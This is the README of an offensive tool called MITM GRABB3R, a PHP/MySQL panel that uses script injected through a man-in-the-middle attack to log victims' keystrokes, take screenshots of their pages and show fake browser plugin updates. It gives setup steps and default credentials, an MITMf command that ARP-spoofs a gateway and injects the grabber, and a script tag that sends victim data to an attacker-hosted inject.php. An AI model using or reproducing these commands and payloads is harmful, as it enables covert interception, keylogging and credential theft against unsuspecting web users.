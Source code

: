 
**MITM GRABB3R** is a PHP (MySQL) script that uses Javascript code to do various XSS "attacks" after you inject it via mitm attack.

INFO
===

This script can capture keystrokes of user input on websites, capture screenshots of pages and run fake browser plugin update.

Each clients history and captures can be viewed on a timeline.

!["MITM GRABB3R DEMO"](http://i.share.pho.to/797b0a0d_o.png "MITM GRABB3R DEMO")

HOW TO SET SCRIPT
===

Create and import database.sql in MySQL 

Upload php script from www to folder on your http server.

Edit

	/includes/settings.ini.php
	/includes/config.ini.php
	
Default web login is:

	Username:admin
	Password:1234
	
HOW TO: MITMf
===

Replace inject.py in plugins folder ( MITMf 0.9.8 ) with inject.py that contains small changes.


Example cmd:

	python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --inject --grabber-url http://192.168.1.5/mitm/inject.php


Use other MITM software?
===

This script was tested on and used with MITMf but should be able to use it without any issues with other software.

If you make plugin for other software contact me and i will add plugin for it.

You need to inject code bellow into every page and then wait for data in panel.

	<script type="text/javascript" src="http://IP_OR_DOMAIN_AND_SCRIPT_PATH/inject.php?ip=IP_ADDRESS_OF_VICTIM"></script>

	
	
Contact
===

Twitter: @ivangr0zni